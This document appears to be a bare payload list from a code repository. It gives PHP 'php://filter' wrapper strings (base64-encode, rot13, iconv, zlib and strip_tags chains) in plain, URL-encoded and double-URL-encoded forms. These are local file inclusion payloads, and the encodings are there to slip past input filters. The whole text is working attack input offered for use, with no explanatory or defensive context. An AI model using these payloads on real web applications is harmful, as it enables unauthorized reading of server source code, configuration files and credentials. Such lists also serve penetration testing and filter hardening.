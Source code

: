 ##payload for phpFilter Normal:

php://filter/convert.iconv.utf-8.utf-16le/resource=

php://filter/read=string.toupper|string.rot13|string.tolower/resource=

php://filter/string.toupper/string.rot13/string.tolower/resource=

php://filter/string.strip_tags/resource=

php://filter/convert.base64-decode/resource=

php://filter/convert.base64-encode/resource=

php://filter/convert.base64-encode|convert.base64-decode/resource=

php://filter/convert.quoted-printable-encode/resource=

php://filter/zlib.deflate/convert.base64-encode/resource=

.....................................................................

##payload for phpFilter Url Encode:

php%3a%2f%2ffilter%2fconvert%2eiconv%2eutf-8%2eutf-16le%2fresource%3d

php%3a%2f%2ffilter%2fread%3dstring.toupper%7cstring%2erot13%7cstring%2etolower%2fresource%3d

php%3a%2f%2ffilter%2fstring%2etoupper%2fstring%2erot13%2fstring%2etolower%2fresource%3d

php%3a%2f%2ffilter%2fstring%2estrip_tags%2fresource%3d

php%3a%2f%2ffilter%2fconvert%2ebase64-decode%2fresource%3d

php%3a%2f%2ffilter%2fconvert%2ebase64-encode%2fresource%3d

php%3a%2f%2ffilter%2fconvert%2ebase64-encode%7cconvert%2ebase64-decode%2fresource%3d

php%3a%2f%2ffilter%2fconvert%2equoted-printable-encode%2fresource%3d

php%3a%2f%2ffilter%2fzlib%2edeflate%2fconvert%2ebase64-encode%2fresource%3d

......................................................................

##payload for phpFilter double Url Encode:

php%253A%252F%252Ffilter%252Fconvert%252eiconv%252eutf-8%252eutf-16le%252Fresource%253D

php%253A%252F%252Ffilter%252Fread%253Dstring%252etoupper%257Cstring%252erot13%257Cstring%252etolower%252Fresource%253D

php%253A%252F%252Ffilter%252Fstring%252etoupper%2Fstring%252erot13%2Fstring%252etolower%252Fresource%253D

php%253A%252F%252Ffilter%252Fstring%252estrip_tags%252Fresource%253D

php%253A%252F%252Ffilter%252Fconvert%252ebase64-decode%252Fresource%253D

php%253A%252F%252Ffilter%252Fconvert%252ebase64-encode%252Fresource%253D

php%253A%252F%252Ffilter%252Fconvert%252ebase64-encode%7Cconvert%252ebase64-decode%252Fresource%253D

php%253A%252F%252Ffilter%252Fconvert%252equoted-printable-encode%252Fresource%253D

php%253A%252F%252Ffilter%252Fzlib%252edeflate%252Fconvert%252ebase64-encode%252Fresource%253D
